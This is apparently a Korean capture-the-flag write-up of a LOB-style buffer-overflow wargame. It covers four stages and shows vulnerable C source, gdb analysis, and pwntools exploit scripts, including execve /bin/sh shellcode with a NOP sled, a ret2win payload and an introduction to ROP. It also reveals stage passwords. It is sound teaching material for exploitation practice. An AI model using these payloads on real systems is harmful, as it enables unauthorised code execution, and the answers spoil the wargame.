# 시작하기 전
과거 pwn 공부해봤다면 한번쯤은 건들여본 해커스쿨 LOB(Lord Of BOF)의 HSPACE 리메이크판이다.
사실 내가 pwn시작했을때도 64bit가 대세였는데 LOB는 32bit라서 좀 낮설었던 경험이 있다. 
아무리 LLM이 해줘도 이정도 BOF는 할 줄 알아야 한다 생각하는데 상당히 괜찮은 것 같다. 특히 LOB는 환경에 툴이 없어서/구식 툴 이라 불편한 점이 있었는데 그 점이 해소된 것 같다.


# ch1



## 코드

```c
//The_Encrypted_Message@hsapce-io:~$ cat MV.c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdbool.h>

char id[] = "helloworld";
char pw[] = "plzboft0s0lv3ch4ll";
char flag[] = "w3lcom3_to_pwn4ble_w0r1d";

void flag_finder()
{
    FILE * fp;

    fp = fopen(".TOP_SECRET", "r");

    char data[20] = {0, };

    fread(data, sizeof(char), 19, fp);

    fclose(fp);
    fp = NULL;

    printf("%s\n\n", data);

    printf("Press enter to exit\n");
    getchar();
    getchar();
}

void ascii()
{
    printf("\n");
    printf("   ▄████████ ████████▄    ▄▄▄▄███▄▄▄▄    ▄█  ███▄▄▄▄   \n");
    printf("  ███    ███ ███   ▀███ ▄██▀▀▀███▀▀▀██▄ ███  ███▀▀▀██▄ \n");
    printf("  ███    ███ ███    ███ ███   ███   ███ ███▌ ███   ███ \n");
    printf("  ███    ███ ███    ███ ███   ███   ███ ███▌ ███   ███ \n");
    printf("▀███████████ ███    ███ ███   ███   ███ ███▌ ███   ███ \n");
    printf("  ███    ███ ███    ███ ███   ███   ███ ███  ███   ███ \n");
    printf("  ███    ███ ███   ▄███ ███   ███   ███ ███  ███   ███ \n");
    printf("  ███    █▀  ████████▀   ▀█   ███   █▀  █▀    ▀█   █▀  \n");
    printf("                                                       \n");
    printf("\n");
}

void user_ascii()
{
    printf("\n");
    printf("███    █▄     ▄████████    ▄████████    ▄████████ \n");
    printf("███    ███   ███    ███   ███    ███   ███    ███ \n");
    printf("███    ███   ███    █▀    ███    █▀    ███    ███ \n");
    printf("███    ███   ███         ▄███▄▄▄      ▄███▄▄▄▄██▀ \n");
    printf("███    ███ ▀███████████ ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   \n");
    printf("███    ███          ███   ███    █▄  ▀███████████ \n");
    printf("███    ███    ▄█    ███   ███    ███   ███    ███ \n");
    printf("████████▀   ▄████████▀    ██████████   ███    ███ \n");
    printf("                                       ███    ███ \n");
    printf("\n");
}

void file_read(char * path){//make path
    int len = 0;
    char * data;

    FILE * fp;
    fp = fopen(path, "r");

    fseek(fp, 0, SEEK_END);
    len = ftell(fp);
    rewind(fp);

    data = (char*)malloc(sizeof(char) * len);

    if(data == NULL){
        printf("allocate Error\n");
        exit(0);
    }

    fread(data, sizeof(char), len, fp);
    printf("%s\n\n", data);

    free(data);
    data = NULL;

    printf("Press enter to exit\n");
    getchar();
    getchar();

}

void root()
{
    int res;
    while(true){
        system("clear");
        ascii();
        printf("User: admin\n");
        printf("\n");
        printf("1. S/W Info\n");
        printf("2. Check File\n");
        printf("3. Exit\n");

        printf("\n");
        printf("Select Menu: ");
        scanf("%d", &res);

        switch (res)
        {
        case 1:
            system("clear");
            printf("File Viewer\n");
            printf("Version: 3.0.2\n\n");

            printf("Press enter to exit\n");
            getchar();
            getchar();
            break;

        case 2:
            system("clear");
            //flag_finder();
            file_read((char*)".TOP_SECRET");
            break;

        case 3:
            system("clear");
            printf("Goodbye\n");
            exit(0);
            break;

        default:
            printf("Invalid Number\n");
            exit(0);
        }
    }
}

void menu()
{
    int res;

    while (true){
        system("clear");
        user_ascii();
        printf("1. S/W Info\n");
        printf("2. Check File\n");
        printf("3. Exit\n");

        printf("Select Menu: ");
        scanf("%d", &res);

        switch (res)
        {
        case 1:
            system("clear");
            printf("File Viewer\n");
            printf("Version: 3.0.2\n");
            printf("Press enter to exit\n\n");
            getchar();
            getchar();
            break;
        case 2:
            system("clear");
            file_read((char*)".SECRET");
            break;

        case 3:
            system("clear");
            printf("Goodbye\n");
            exit(0);
            break;

        default:
            printf("Invalid Number\n");
            break;
        }
    }

}

int main()
{
    int cmp1 = 3, cmp2 = 3, cmp3 = 3, cmp4 = 3;
    char admin[10] = "deny", id_input[20], pw_input[20];

    system("clear");

    printf("ID: ");
    scanf("%s", id_input);
    printf("PASSWORD: ");
    scanf("%s", pw_input);
    sleep(1);
    if(strncmp(id_input, "admin", 5) == 0) printf("%s\n", admin);
    sleep(1);

    cmp1 = strncmp(id, id_input, 10);
    cmp2 = strncmp(pw, pw_input, 19);
    cmp3 = strncmp(id_input, "admin", 5);
    cmp4 = strncmp(admin, "confirm", 7);

    if(cmp1 == 0 && cmp2 == 0){
        printf("Wellcome Back!\n");
        menu();
        exit(0);
    }

    if(cmp3 == 0 && cmp4 == 0){
        system("clear");
        printf("Redirect to Admin page\n");

        sleep(1);
        printf(".......\n");
        sleep(1);
        printf(".......\n");
        sleep(1);
        printf(".......\n");
        sleep(1);
        printf(".......\n");
        sleep(1);
        printf(".......\n");

        system("clear");

        root();

        exit(0);
    }

    return 0;
}
```

문제 코드는 위와 같다. 우리의 목적은 `root()`를 실행시키는 것이다.

## 분석

cmp1, cmp2는 만족하면 `root`실행을 못하니 무시하고, cmp3, cmp4를 보자.

```c
cmp3 = strncmp(id_input, "admin", 5);
cmp4 = strncmp(admin, "confirm", 7);
```

`id_input`이 “admin”이여야 하고 `admin`은 “confirm”이여야 한다. 그러나 admin은 일반적으론 수정이 불가능하고 기본값이 “deny”다.

```c
char admin[10] = "deny", id_input[20], pw_input[20];
```

여기서 gdb를 켜고 main함수의 디스어셈블리 결과를 보자



좀 길지만, 웃너 cmp1~cmp4 부분은 다음과 같다.



순서, 인자를 기반으로 유추하면

`[rbp-0x30]` 은 `id_input`이고 `[rbp-0x50]`은 `pw_input`, `admin`은 `[rbp-1a]` 란 것을 알 수 있다.

그리고 입력에서 길이 제한을 받지 않으므로, `id_input`의 길이가 0x30-0x1a=0x16 를 넘어가면 `admin`을 덮어쓴다는 것까지 알 수 있다. `strncmp`는 비교할 문자열의 길이만큼만 비교하지 전체를 비교하지 않으니

id를 `adminAAAAAAA...` 이런 식으로 입력해도 id 검사는 통과한다.
그 증거로, `adminAAAAAAAAAAAAAAAAAA` 을 입력하면 admin 출력이 “A” 로 나온다.



그러니 id를 `adminAAAAAAAAAAAAAAAAAconfirm` 으로 하면 admin이 confirm으로 덮어씌워져 통과한다.



---

# ch2



## 분석

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>

int cmp = 0xfffff, num = 0;
char srl[30] = "3t267s77wh2djfi3mid2od2o329dw";

void dec(char * ptr, int len)
{
    for(int i = 0; i < len; i++){
        ptr[i] ^= 0x40;
    }
}

void print_file()
{
    FILE * fp;
    int flsz = 0;
    char * file = 0;

    printf("Wait until decode\n");

    sleep(3);

    fp = fopen(".Real_Top_Secret", "rb");

    fseek(fp, 0, SEEK_END);
    flsz = ftell(fp);
    rewind(fp);

    file = malloc(sizeof(char)*flsz+1);
    memset(file, 0, flsz+1);

    fread(file, flsz, 1, fp);

    dec(file, flsz);

    system("clear");

    printf("--------------------------------------------------------------------------\n");
    printf("%s\n", file);
    printf("--------------------------------------------------------------------------\n");

    fclose(fp);
    free(file);
    file = NULL;

    if(getchar() != 0){
        system("clear");
    }

    free(file);
    file = NULL;
}

int main()
{
    char serial[256] = {0, };

    printf("Serial Number: ");
    gets(serial);

    if(strlen(serial) == 29){
        cmp = strcmp(serial, srl);
        if(cmp == 0){
            printf("Welcome Back!\n");
            print_file();
            goto end;
        }
    }

    end:
    return 0;
}
```

코드는 이렇다.

일단 root 함수가 없다. 우리 목표는 root얻기이므로 따로 우리가 직접 쉘을 따야 한다.



일단 보호기법이 없고 32bit다.
보통 이러면 대부분 쉘코드다. ~~쉘코드 아니면 굳이 보호기법을 끌 이유가없다~~

보호기법이 없으니 stack영역의 코드도 실행이 가능하니, 쉘코드를 `serial`에 넣고 ret주소를 serial로 잡으면 될 것 같다.

## 풀이

쉘코드는 쉘스톰 보면 많다.

그 중 우선 가장 간단한 `/bin/sh` 실행하는 linux 32bit 쉘코드는 `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80` 
이다.

그리고, gdb는 자체적인 분석을 위한 처리로 인해 gdb에서의 stack 주소가 실제와 다른 경우가 있다.



stack 주소는 그냥 실행하냐, pwntools로 실행하냐, attach로 하냐에 따라 다 다르다.

이럴 때 사용하는 것이 NOP Slide라는 기법인데, NOP는 아무것도 하지 않고 다음 주소로 넘어가라는 명령어이다. 이 NOP를 shellcode 앞뒤로 붙이고 shellcode 앞의 적당한 주소를 지정하면, 오차가 있어도 NOP에 jump를 하여 쭉 이어가다 shellcode로 이동한다.

x86계열에서는 \x90이 NOP이다.

### 익스 코드

return 주소는 `0xffffd4e0` 이고 `serial`의 시작 주소는 `0xffffd3f0` 이니 “\x90\x90….shellcode+\x00…..”을 0x108+4 길이가 되도록 넣고 적당한 주소를 넣어 줘야 하는데, 문제가 해당 문제에서는 공격 대상인 `File_Decoder`에 직접 attach를 걸 수가 없어 덮어쓸 주소를 알기 어렵다.

그래서 그냥 0xffffd3f0 기준 앞뒤로 될때까지 다 넣어보도록 했다.

```c
from pwn import *

e=ELF('./File_Decoder')

shellcode=b''
shellcode+=b'\x90'*0x80
shellcode+=b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'

for i in range(0xffffd3f0, 0xffffd600, 0x30):
    p=e.process()
    payload=shellcode.ljust(0x10C,b'\x90')+p32(i)
    p.sendline(payload)
    try:
        p.recvline(timeout=5)
        p.interactive()
    except EOFError:
        p.close()
        continue
```

이렇게 해서 쉘을 얻고 `status`로 비번을 알 수 있다.



정확히는 uid는 맞지만 gid가 다르다.

Escape_Triggered_by_shellcode

---

# ch3

## 코드 분석

### 정적 분석

```c
#include<stdio.h>
#include<stdlib.h>

int check_value = 0;

void shell()
{
    check_value = 1;
    printf("You Open the Armory Door!\n\n");
    system("/bin/sh");
}

void Power_Supply()
{
    printf("Armory lights up!\n\n");
}

void Power_cut_off()
{
    printf("The lights go out in the armory!\n\n");
}

void Weapon_Select()
{
    int weapon_choice;

    if(check_value != 1)
    {
        printf("You must be open the door!\n\n");
    }
    else
    {
        printf("Weapon List\n");
        printf("[1] Knife\n");
        printf("[2] Gun\n");
        printf("[3] Frying Pan\n");
        printf("[4] Baseball Bet\n");

        printf("Select a Weapon : ");
        scanf("%d", &weapon_choice);

        switch (weapon_choice) {
        case 1:
            printf("[Knife] I got it!\n\n");
            break;
        case 2:
            printf("[Gun] I got it!\n\n");
            break;
        case 3:
            printf("[Frying Pan] I got it!\n\n");
            break;
        case 4:
            printf("[Baseball] I got it!\n\n");
            break;
        default:
            printf("Wrong input!\n");
            break;
        }
    }
}

void Open_Door()
{
    char password[20];

    printf("Enter Password : ");
    scanf("%s", password);
}

void Close_Door()
{
    if(check_value ==  0)
    {
        printf("The door is already closed\n\n");
    }
}

void Check_Security_System_Log()
{
    printf("Arch:     i386-32-little\n");
    printf("RELRO:    Partial RELRO\n");
    printf("Stack:    No canary found\n");
    printf("NX:       NX unknown - GNU_STACK missing\n");
    printf("PIE:      No PIE\n");
    printf("Stack:    Executable\n");
    printf("RWX:      Has RWX segments\n\n");
}

void print_menu()
{
    printf("Armory Management System\n");
    printf("<Menu>\n");
    printf("[0] Turn Off Armory Management System\n");
    printf("[1] Power Supply\n");
    printf("[2] Power cut-off\n");
    printf("[3] Weapon Select\n");
    printf("[4] Check the security system log\n");
    printf("[5] Open Door\n");
    printf("[6] Close Door\n\n");
}

int main(void)
{
    int select_menu;

    print_menu();

    while(1)
    {
        printf("Select Menu : ");
        scanf("%d", &select_menu);

        if(select_menu == 0)
        {
            break;
        }
        else if(select_menu == 1)
        {
            Power_Supply();
        }
        else if(select_menu == 2)
        {
            Power_cut_off();
        }
        else if(select_menu == 3)
        {
            Weapon_Select();
        }
        else if(select_menu == 4)
        {
            Check_Security_System_Log();
        }
        else if(select_menu == 5)
        {
            Open_Door();
            puts(" ");
        }
        else if(select_menu == 6)
        {
            Close_Door();
        }
        else
        {
            printf("Wrong input!\n");
            break;
        }
    }
}
```

뭐가 많은데, `Open_Door()`이외에는 다 문자열 출력이 전부고 중요한건 `Open_Door()`와 `shell()` 이다.

```c
void Open_Door()
{
    char password[20];

    printf("Enter Password : ");
    scanf("%s", password);
}
```

Open_Door 함수를 보면 password에 길이 제한 없이 입력을 받는다.

```c
void shell()
{
    check_value = 1;
    printf("You Open the Armory Door!\n\n");
    system("/bin/sh");
}
```

그리고 shell은 쉘을 따준다.

이전 단계에서는 쉘코드로 쉘을 얻었지만 여기서는 쉘을 주는 함수가 있으니, return 주소를 쉘코드가 아니라 함수의 주소로 잡으면 된다. 마침 코드에서 볼 수 있듯 보호기법도 없어 함수 주소는 매번 고정이다.

### 동적 분석



password와 return 주소간의 거리를 확인하기 위해서 +49부분에 중단점을 걸고 입력하면 다음과 같다.



위 화면에서 볼 수 있듯 password는 `0xfffd430`에서 시작하고 return 주소는 `0xffffd450` 이다.

## 풀이

이를 바탕으로 익스를 짜면

```python
from pwn import *

e=ELF('./stage3')
p=e.process()

shell=e.sym['shell']

payload=b'A'*0x18+b'B'*4+p32(shell)
p.sendline('5')
p.sendline(payload)

p.interactive()
```



pw: extRAOrdinary_crawbar!

---

# ch4

## 코드

```python
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char MasterKey[16] = "/bin/sh";

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}

void gadget() {
    asm("pop %rdi; ret");
    asm("pop %rsi; pop %r15; ret");
    asm("pop %rdx; ret");
    }

void welcom(){
    printf("Welcome to the shop\n");
    printf("[1] Vegetable Display\n");
    printf("[2] Frozen Food Display\n");
    printf("[3] Ramen/Snack Display\n");
}

int main(int argc, char *argv[]){

    int select;
    char buf[0x40]={};
    initialize();
    welcom();

    printf("Choose the display stand : ");
    scanf("%d", &select);
    if(select == 1 || select == 3)
    {
        printf("Remaining quantity : 0");
        printf("There are no items left.");
    }
    else if(select == 2)
    {
        printf("Remaining quantity : 30\n");
        printf("Frozen food is stored in the freezer warehouse.\n");
        printf("Address of freezer warehouse : %p\n", &read);
        printf("Please select the quantity of the item : ");
        read(0,buf,0x400);
    }

    write(1, buf, sizeof(buf));

    return 0;
}
```

```python
checksec stage4
[*] '/home/Scavening_for_Survival/stage4'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

이번 문제는 64bit문제이다.

`buf` 의 크기는 0x40인데 `read(0,buf,0x400);`에서 크기 이상으로 입력을 받고 있다.

다만 문제점은 NX가 켜져있다는 점이다. NX가 켜져있으면 특정(stack, heap 등)영역에 실행 권한을 주지 않기 때문에, shellcode를 활용하는 것이 불가능하다.

그리고 Partial RELRO가 켜져 있는데, 이는 후술한다.

가장 주의깊게 봐야 할 부분은 `Masterkey`와 `gadget`이다. 마스터키는 “/bin/sh” 문자열을 담고 있고, `gadget`은 어셈블리 코드가 있다.

## 분석

ROP는 Return-Oriented Programming의 약자로, 이미 바이너리(혹은 로딩하는 libc)에 있는 코드들을 활용해 특정한 동작을 구현해내는 기법이다.

우리는 지금 쉘을 실행해야 하지만 당장 쉘을 실행하는 함수는 없기 때문에, ROP로 직접 쉘을 실행하는 코드를 짜야 한다.

그리고 그것을 위한게 마스터키와 가젯들, 그리고 got/plt 개념이다.

### GOT/PLT

plt는 `Procedure Linkage Table` 의 약자로, 외부 라이브러리(보통 libc 등)의 함수를 호출하기 위해 사용하는 테이블이다. write, read같은 함수는 이번 stage4 바이너리에는 없지만 외부 libc에 선언되어 있다. 이럴 때 read, write 등의 함수를 호출해야 할 때 plt의 주소를 호출하면 got를 참조해서 libc에 있는 원본 함수를 호출한다.



위 화면에서 `0x4010b0`은 printf의 plt 주소이다. 해당 plt는 printf의 got가 가리키고 있는 주소로 점프하는데, printf의 got에는 libc에 있는 `__printf` 함수의 주소가 담겨 있다.

libc의 함수 주소는 libc의 base 주소에, 일정한 규칙을 가지는 offset을 더한 값으로 구성되는데 ASLR이(ASLR은 바이너리가 아닌 운영체제에서 활성/비활성화 시킨다.) 켜져 있으면 libc의 base 주소가 랜덤이다.

여기서, Partial RELRO인 것이 중요하다. RELRO는 특정 영역에 쓰기 권한을 지워버리는데(NX는 실행) Partial RELRO에서는 got의 쓰기 권한이 남아 있다.

즉, plt를 이용하면 특정 함수를 호출하는 것이 가능하고 got를 조작하면 해당 got가 담당하는 함수의 plt를 호출할 때 실행되는 함수를 마음대로 바꿀 수 있다.

위의 점을을 이용해 익스코드를 짜보자.

### 풀이

최종 목적은 `system("/bin/sh/");` 실행이다. 하지만 이번 문제에는 system의 plt/got가 없다.

